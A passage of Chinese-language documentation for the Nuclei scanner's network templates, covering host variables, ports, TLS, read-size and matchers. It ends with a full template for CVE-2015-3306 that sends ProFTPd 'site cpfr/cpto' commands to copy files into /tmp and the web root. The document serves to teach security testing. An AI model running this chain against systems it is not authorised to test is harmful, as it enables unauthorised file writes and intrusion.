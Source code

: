 {{Host}}将赋值为“10.20.30.40”

{{Hostname}}将被赋值为“10.20.30.40:8080”

网络模板可以选择性地指定一个TCP端口，期望服务监听在这个端口上如上例所示，我们尝试连接到6101-6103端口。如果我们在模板中制定了端口，则需要使用{{host}}。如果在模板中不硬编码TCP端口号，则需要使用{{Hostname}}，并且用户需要在命令行或目标列表文件中提供端口作为目标主机规范的一部分。例如：
```yaml
nuclei -t jnexcomm-detect.yaml -u 10.12.34.56:6101
```

如果用户使用TLS传输安全，可以使用`tls://`方案进行执行，如下列所示：
```yaml
host:
  - "tls://{{Hostname}}"
```

### read-size

read-size字段制定了从远程服务的响应中读取多少字节以供匹配器分析。在本例中，我们需要检查响应的前14个字节用于指纹识别服务。

### matchers

matchers（匹配器）将对服务读取的字节进行匹配，其类型与HTTP请求模式中的类型相同。在本例中，我们使用了一个简单的字符串（单词）匹配器，与输入一样，它使用一个辅助函数，以便我们可以用十六进制标识期望的服务响应签名。

### 多步交互

与HTTP模式一样，网络模式也可以对目标服务进行多步通信。一个多步网络模板的示例是CVE-2015-3306漏洞利用。

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 

```
